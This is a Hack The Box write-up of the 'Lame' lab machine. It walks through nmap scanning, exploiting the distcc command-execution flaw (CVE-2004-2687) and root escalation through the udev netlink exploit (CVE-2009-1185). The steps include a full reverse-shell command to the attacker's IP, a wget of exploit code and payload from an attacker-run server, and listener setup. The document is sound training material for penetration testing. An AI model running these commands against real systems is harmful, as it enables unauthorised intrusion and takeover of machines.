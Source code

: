 Hack The Box — Lame Writeup
==========================================

![Image of Lame](https://github.com/s-farhat/HTB-WriteUps/blob/master/images/Lame.png)

**Personal review**: This Machine took me about three (3) hours to gain root privilege. It was pretty easy however, as I'm trying to avoid working w/o Metasploit and, as the version of Linux deployed on this box contains many vulnerabilities, it was pretty challenging.


### 1. Reconnaissance
First of all, i run a quick nmap scan to figure out which ports are opened and also the service running behind those ports.<br>
```
nmap -sC -sV -O 10.10.10.3 > Quick-scan-Lame.nmap
```
The output of the last command showed the open ports listed below:
* 21/tcp : vsftpd 2.3.4
* 22/tcp : OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
* 139/tcp & 445/tcp : netbios-ssn Samba smbd 3.X - 4.X 

Before working on those results, i run a full nmap scan in order to make sure that i didn't miss any other opened ports. <br>
```
nmap -sC -sV -O -p- 10.10.10.3 > Full-scan-Lame.nmap
```
This full scan reported a new open port:
* 3632/tcp : distccd v1


### 2. Enumeration:
After getting the result of the quick scan, i immidiately start the enumeration phase.
First of all i tried to login with Anonymous:<blank password>. This vulnerability was present, but unfortunately, the directory is empty.<br>
Always on the port 21, i notice that the service running is vsftpd 2.3.4 . I already know that this version is vulnerable and the first idea that come to my mind is to launch the command below:
```
searchsploit vsftpd 2.3.4
```
```
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
vsftpd 2.3.4 - Backdoor Command Execut | exploits/unix/remote/17491.rb
--------------------------------------- ----------------------------------------
```
The result showed that only a metasploit module is found. Then, with a simple google search i was able to find a [Python script](https://github.com/s-farhat/HTB-WriteUps/blob/master/scripts/Lame/exploit.py) which serve to exploit this vulnerability. After cloning it and reviewing the content, i decided to execute it in order to get my first shell.
<br>Unfortunately, the script returned `[!] Failed to connect to backdoor`, so i realized that the service isn't vulnerable to **[CVE-2011-2523](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523)**


Before moving on the next port, i got the result of my full scan command and i realized that the distcc service is running under the port 3632. I didn't know what this service represents and this was sufficient to catch my curiosity. <br>
I started with a simple google search to know more about this service and then I figured out that:
- Distcc is a tool for speeding up compilation of source code by using distributed computing over a computer network. 

This was pretty interesting for me and i decided to focus on this service. The next step was to search if there is a known vulnerability to exploit this service.<br>
The `searchsploit` command returned only one result which is a metasploit module so I had to search for another solution.<br>
After a while, i realized that there is a nmap script which serve to exploit this service.<br>
At first, i tried to understand what the script exactly does and then i launched the command below:
```
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
And finally, the result confirmed that this service is vulnerable.
```
PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|       https://distcc.github.io/security.html
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
```
In order to get a reverse shell, i started the command below:
```
nc -nlvp 4444
```
and in another terminal i executed the command below:
```
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc 10.10.14.24 4444 -e /bin/bash'"
```

And **finally**, i got the reverse shell with `daemon` privilege and after performing `ls -la` on the user's home directory, i realized that I'm able to read the user.txt file.
```
-rw-r--r-- 1 makis makis 33 Mar 14  2017 /home/makis/user.txt
```
### 3. Privilege Escalation:

As this box is rated Low. The first thing that i have done is to check the Kernel Version and it is `Linux 2.6.24`.
I realized that this version is an old one and contains many vulnerabilities. I focused on this vector to gain root privilege.<br>
After unsuccessful tries, I put my hands on the [CVE-2009-1185](https://www.exploit-db.com/exploits/8572) then i understood what it do exactly and then tried to give a try.
At first, I launched a Simple HTTP Server using python over port 80 using the command below:
```
python -m SimpleHTTPServer 80
```
Then from the reverse shell, I downloaded [the exploit](https://github.com/s-farhat/HTB-WriteUps/blob/master/scripts/Lame/8572.c) and then compiled it with gcc
```
wget http://10.10.14.24/8572.c
gcc 8572.c -o exploit
```
As mentioned in the description of the exploit, i should to look after the pid of the **udevd netlink socket**, inject a payload into **/tmp/run**, start listening on a specific port to intercept the reverse shell and start the exploit . Here's below the commands that i performed:
```
ps -aux | grep udevd
```
```
root      2688  0.0  0.1   2216   644 ?        S<s  Apr26   0:00 /sbin/udevd --daemon
```
PS : With this first command i deduct that the number that we have to pass as an argument for the exploit is (2688 - 1 ) = **2687**

```
wget http://10.10.14.24/payload | mv payload /tmp/run
```
And on another terminal i launched this command below to start listening on a specific tcp port:

```
nc -nlvp 4445
```
And Finaly, I executed the payload with this command below:
```
./exploit 2687
```

**Box Rooted !!!**

